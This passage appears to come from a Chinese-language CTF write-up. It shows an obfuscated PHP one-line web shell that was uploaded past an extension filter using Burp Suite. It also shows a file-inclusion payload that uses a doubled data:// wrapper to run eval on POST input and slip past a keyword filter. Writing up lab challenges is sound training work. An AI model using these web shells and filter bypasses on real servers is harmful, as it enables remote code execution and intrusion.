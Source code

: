 ```
$ab=$a.$b;
$abc=ab;
$$abc($_POST[pass]);?>
```
简单做一下反过滤，上传，用bp修改后缀为php
![upload successful](./images/pasted-800.png)
成功拿到key

# 34073 文件包含
测试一下常见的协议
使用双写`index.php?page=data://text/plan,<?php eval($_POST['shell']); ?>`
用POST传参`shell=phpinfo();`
发现data://被替换为空，双写绕过
